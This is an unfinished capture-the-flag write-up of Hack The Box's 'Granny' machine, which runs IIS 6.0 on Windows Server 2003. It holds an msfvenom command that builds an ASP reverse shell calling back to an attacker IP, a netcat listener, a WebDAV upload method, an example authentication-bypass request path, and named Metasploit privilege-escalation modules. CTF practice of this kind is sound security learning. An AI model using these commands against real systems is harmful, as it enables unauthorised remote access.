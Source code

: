 # Granny
`Still in progress`

## Recon

The tags on [this box](https://app.hackthebox.com/machines/14)  
> - Windows
> - Patch Management  
> - Web

Difficulty:
> Easy

The only open port is 80. There is an IIS 6.0 webserver running. The homepage appears to be broken:

![[Pasted image 20220115184455.png]]

IIS 6.0 is way old. There's gotta be exploits for it out there. I reviewed EDB exploits using searchsploit, but none of them seem exciting. I decided to check with [Hacktricks's WebDav page](https://book.hacktricks.xyz/pentesting/pentesting-web/put-method-webdav) and was happy to find the following method to gain code execution.

For the shell, I'll be using msfvenom to create a reverse tcp shell for windows.
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.2 LPORT=4444 -f asp -o reverse.asp
```

![[Pasted image 20220115185937.png]]

Now start a listener to catch the reverse shell.

```bash
nc -nvlp 4444
```

Then trigger the exploit by visiting the malicious page we just uploaded.

![[Pasted image 20220115190110.png]]

Look, a shell!

![[Pasted image 20220115190203.png]]

System Info

```
> Host Name:                 GRANNY  
> OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition  
> OS Version:                5.2.3790 Service Pack 2 Build 3790  
> OS Manufacturer:           Microsoft Corporation  
> OS Configuration:          Standalone Server  
> OS Build Type:             Uniprocessor Free  
> Registered Owner:          HTB  
> Registered Organization:   HTB  
> Product ID:                69712-296-0024942-44782  
> Original Install Date:     4/12/2017, 5:07:40 PM  
> System Up Time:            0 Days, 0 Hours, 53 Minutes, 6 Seconds  
> System Manufacturer:       VMware, Inc.  
> System Model:              VMware Virtual Platform  
> System Type:               X86-based PC  
> Processor(s):              1 Processor(s) Installed.  
>   [01]: x86 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz  
> BIOS Version:              INTEL  - 6040000  
>  Windows Directory:         C:\WINDOWS  
> System Directory:          C:\WINDOWS\system32  
> Boot Device:               \Device\HarddiskVolume1  
> System Locale:             en-us;English (United States)  
> Input Locale:              en-us;English (United States)  
> Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk  
> Total Physical Memory:     1,023 MB  
> Available Physical Memory: 709 MB  
> Page File: Max Size:       2,470 MB  
> Page File: Available:      2,255 MB  
> Page File: In Use:         215 MB  
> Page File Location(s):     C:\pagefile.sys  
> Domain:                    HTB  
> Logon Server:              N/A  
> Hotfix(s):                 1 Hotfix(s) Installed.  
> [01]: Q147222  
> Network Card(s):           N/A 
```


## Privesc

I used the same technique to upload winpeas.bat to do some more enumeration.

Didn't see anything obvious in the WinPEAS output, so I took a break and added an analysis/lessons learned to the other pages. One of the mistakes I made was to jump to exploitation before finishing enumeration. Enumerate, enumerate, enumerate. I'm going to try a different format for writeups on the next few boxes, switching to that format now (sorry readers, this is going to be a messy writeup).



## NMAP scan results

```text
PORT   STATE SERVICE REASON          VERSION                                                                      80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 6.0                                                      | http-methods:                                                                                                   |   Supported Methods: OPTIONS TRACE GET HEAD DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT POST                                                                                                                 |_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT             |_http-title: Under Construction                                                                                  | http-webdav-scan:                                                                                               |   Server Date: Sun, 16 Jan 2022 00:28:36 GMT                                                                    |   WebDAV type: Unknown                                                                                          |   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH                                                                                                      |   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK                                                                                                                |_  Server Type: Microsoft-IIS/6.0                                                                                |_http-server-header: Microsoft-IIS/6.0                                                                           Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port             Device type: general purpose                                                                                      Running (JUST GUESSING): Microsoft Windows 2003|2008|2000|XP (91%)

```

# Services

## :80 - IIS 6.0
From [Wikipedia](https://en.wikipedia.org/wiki/Internet_Information_Services)

> **Internet Information Services** (**IIS**, formerly **Internet Information Server**) is an extensible [web server](https://en.wikipedia.org/wiki/Web_server "Web server") software created by [Microsoft](https://en.wikipedia.org/wiki/Microsoft "Microsoft") for use with the [Windows NT](https://en.wikipedia.org/wiki/Windows_NT "Windows NT") family.[[2]](https://en.wikipedia.org/wiki/Internet_Information_Services#cite_note-2) IIS supports [HTTP](https://en.wikipedia.org/wiki/HTTP "HTTP"), [HTTP/2](https://en.wikipedia.org/wiki/HTTP/2 "HTTP/2"), [HTTPS](https://en.wikipedia.org/wiki/HTTPS "HTTPS"), [FTP](https://en.wikipedia.org/wiki/File_Transfer_Protocol "File Transfer Protocol"), [FTPS](https://en.wikipedia.org/wiki/FTPS "FTPS"), [SMTP](https://en.wikipedia.org/wiki/Simple_Mail_Transfer_Protocol "Simple Mail Transfer Protocol") and [NNTP](https://en.wikipedia.org/wiki/Network_News_Transfer_Protocol "Network News Transfer Protocol"). It has been an integral part of the Windows NT family since [Windows NT 4.0](https://en.wikipedia.org/wiki/Windows_NT_4.0 "Windows NT 4.0"), though it may be absent from some editions (e.g. Windows XP Home edition), and is not active by default.

### Exploit 1 - WebDav arbitrary file upload
[HackTricks](https://book.hacktricks.xyz/pentesting/pentesting-web/put-method-webdav) explains how to upload an executable file to bypass filtering. This is the method I already did above, and I was able to get a shell as `network service`


### Exploit 2 - WebDav buffer overflow
[EDB-41738](https://www.exploit-db.com/exploits/41738)
> Description:Buffer overflow in the ScStoragePathFromUrl function in the WebDAV service in Internet Information Services (IIS) 6.0 in Microsoft Windows Server 2003 R2 allows remote attackers to execute arbitrary code via a long header beginning with "If: <http://" in a PROPFIND request, as exploited in the wild in July or August 2016.  

This exploit is pre-loaded with a calc.exe payload - if I want to exploit I'll need to replace the payload with a reverse shell or something similar.

#### Replacing the shellcode
![[Pasted image 20220116165456.png]]  

I couldn't get this one to work, I may be doing it wrong. This attack vector seems too complex for the rating of this box anyway.

### Exploit 3 - IIS 6.0 Authentication Bypass
[EDB-19033](https://www.exploit-db.com/exploits/19033)

> (tested on Windows Server 2003 SP1 running PHP5)  
Details:  
By sending a special request to the IIS 6.0 Service running PHP the attacker can successfully bypass access restrictions.  
>Take for example:  
1.) IIS/6.0 has PHP installed  
2.) There is a Password Protected directory configured  
--> An attacker can access PHP files in the password protected  
directory and execute them without supplying proper credentials.  
--> Example request (path to the file): /admin::$INDEX_ALLOCATION/index.php  
IIS/6.0 will gracefully load the PHP file inside the "admin" directory if the ::$INDEX_ALLOCATION postfix is appended to directory name.  
This can result in accessing administrative files and under special circumstances execute arbirary code remotely.

## Applications
From winpeas, I was able to see the following patches not installed. There were more missing patches, but these are ones I could find potentially relevant exploits for.

Since all the privilege escalation paths I found were metasploit modules, I had to migrate my shell over to metasploit:

![[Pasted image 20220116185502.png]]

### Task Scheduler
MS10-092 - [EDB - 19930] This is a metasploit module. I would need to migrate shell to metasploit session before testing `windows/local/ms10_092_schelevator`

#### Exploitation



### Kitripod
MS10-015 - [EDB - 11199](https://www.exploit-db.com/exploits/11199) This is also a metasploit module.
`windows/local/ms10_015_kitrap0d`


